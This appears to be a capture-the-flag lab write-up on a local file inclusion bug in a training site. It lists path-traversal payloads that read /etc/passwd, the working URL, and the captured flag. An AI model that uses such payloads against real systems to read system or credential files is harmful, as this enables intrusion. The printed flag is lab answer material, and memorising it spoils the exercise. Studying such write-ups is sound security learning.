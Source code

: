 # Local file inclusion
- the vulnerability occurs when a user can control, in some way, the file that the server is going to load
- the server loads a local file (e.g. etc/passwd, /var/log/syslog, /home/username/.ssh/authorized_keys)
- https://book.hacktricks.xyz/pentesting-web/file-inclusion

<b>keywords</b>: include<br>
<b>attacked site</b>: http://borntosec.42/?page=$PAGE_NAME

## Exploit
To check if the vulnerability exists, we can try several payloads:
```
../etc/passwd
../../etc/passwd
../../../etc/passwd
../../../../etc/passwd
../../../../../etc/passwd
../../../../../../etc/passwd
../../../../../../../etc/passwd
../../../../../../../../etc/passwd
```
We succeeded with the penultimate one:
``` html
http://borntosec.42/?page=../../../../../../../etc/passwd
```
Visiting this URL opens a popup window:
```
Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0
```

## Flag
b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0
